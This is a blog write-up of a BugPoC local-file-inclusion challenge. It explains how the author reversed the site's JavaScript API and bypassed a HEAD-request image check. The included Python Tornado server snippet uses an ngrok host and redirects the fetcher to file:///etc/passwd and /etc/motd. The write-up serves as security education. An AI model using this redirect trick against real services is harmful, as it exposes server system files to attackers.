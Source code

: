 ```yaml
---
layout: post
title:  "LFI Challenge"
date:   2020-10-06 11:25:10 +0545
author: machinexa
image: /writeups/assets/images/lfichallenge.jpeg
category: Writeups
---
```

<br>

## Description
Browsing twitter i saw a new challenge from BugPoC which was about LFI I immediately started solving it. The image said to visit [http://social.buggywebsite.com/](https://social.buggywebsite.com/) to start the challenge. Also, since it was server sided bug, i got energized to solve. 

### Starting point
First of I had to find sink where i could execute LFI. I tried typing and it generated the option to share. Looking at the source code more, i find a compressed javascript file, it showed various functinons. After analyzing the code, I found out only request starting with `https` made an xhr request and to https://api.buggywebsite.com. It send json data with url and requestTime parameter.
```js
function processUrl(e) {
    requestTime = Date.now(), url = "https://api.buggywebsite.com/website-preview";
    var t = new XMLHttpRequest;
    t.onreadystatechange = function() {
        4 == t.readyState && 200 == t.status ? (response = JSON.parse(t.responseText), populateWebsitePreview(response)) : 4 == t.readyState && 200 != t.status && (console.log(t.responseText), document.getElementById("website-preview").style.display = "none")
    }, t.open("POST", url, !0), t.setRequestHeader("Content-Type", "application/json; charset=UTF-8"), t.setRequestHeader("Accept", "application/json"), data = {
        url: e,
        requestTime: requestTime
    }, t.send(JSON.stringify(data))
```

### Developing client
I had to write a client that interacts with API with those parameters filled with value. First, i found `get_second()` (a function to get current second) in stackoverflow answer. Then for url i used input prompt on while loop. A successful response is shown below. Then i parsed the data using json module. Then the content of image is dumped to file. Here's my source code: [Exploit.py](https://gist.github.com/machinexa2/118a7983b407cca55a6a1801a10acb7c)  

![Response](/writeups/assets/images/lfichallenge_response.png)

Now, i tried different stuffs, ideas such as SSRF but it wasnt working. I later realized it was using urllib3 to make requests which could never result in LFI but only SSRF. Also, SSRF was also not possible as it was not showing response and was probably blocked. Also, since the API wasnt vulnerable i looked for other endpoints etc but nothing seemed to work. Playing with it for some amount of time releaved something that i missed before.  

### Open Graph metadata
It was parsing the `<meta>` tags and reflecting them. OG is short for Open Graph which allows web page to become a rich object in social graph. It had lot of tags and some tags that were being reflected were `og:description`, `og:type`, `og:image` and `og.url`. Also, description, type and url didnt have much effect on the server. However, image was again fetching resources and used urllib3. Trying for SSRF again failed me and wasnt solution of challenge so i moved on.

Looking at different perspective, i found the following details:
* It fetches similar to this `^https://.*\.(jpg|svg|png)`
* Serving other file with extensions fails HEAD test, parser checks by mimetype which can be bypassed
* Seriving `.jpg` file with jpg magic header, base64 encodes the returned image response   

![Details](/writeups/assets/images/lfichallenge_details.png)

I tried putting html, php and other code in jpeg mimetype file but it didnt work. I also tried using exif tags for code execution which didnt work too. I was quite lost at this moments and those weird hints from BugPoC made me more mad.  

### Hitting the jackpot
Since, HEAD request was used to verify whether its image or not, I coded in tornado to create a server. I set content-type and other headers of image, and issued redirection to /etc/passwd at second get request which should hopefully get us /etc/passwd. A small snippet shows how I coded it:   
```python
class FileHandler(tornado.web.RequestHandler):
    def head(self):
        self.set_header('Content-Length', 237)
        self.set_header('Content-Type', 'image/svg+xml')
        self.set_header('Location', 'http://fa0cf2d0f26e.ngrok.io//asset/original.jpg')
    def get(self):
        self.set_header('Content-Type', 'image/svg+xml')
        self.set_header('Location', 'file:///etc/motd')
        self.write("<p>You should be redirected automatically to target URL: <a href='file:///etc/passwd'>file:///etc/passwd</a>")
        self.redirect("file:///etc/motd")

class IndexHandler(tornado.web.RequestHandler):
    def head(self):
        self.set_header('Content-Length', 237)
        self.set_header('Content-Type', 'image/svg+xml')
        self.set_header('Cache-Control', 'public, max-age=0')
        self.set_header('Pragma', 'no-cache')
        self.redirect('/asset/original.jpg')
    def get(self):
        with open('index.html', 'rb') as f:
            self.write(f.read())
```
<br>
Now, lets host the malicious server, and get that file. Also, i rechanged lot of my exploit.py and other files to make it as easy to get the file. I hit the jackpot got the file!

![Pwned](/writeups/assets/images/lfichallenge_pwned.png)

## Takeaway 

* Always try harder, if i left when i failed SSRF, I couldn't have solved the challenge 
* Javascript files are gold mine. Do always read them and try to find sensitive endpoints.
* Coding is essential to exploit development. Make sure you master at least a single programming language.

Some hints from BugPoC helped me but last ones were absurb and meaningless. Also, I necessarily didnt have to code server and client. For server i could have used BugPoC mock endpoint and for client i could have user either burp or browser thought for testing purposes, client is best!
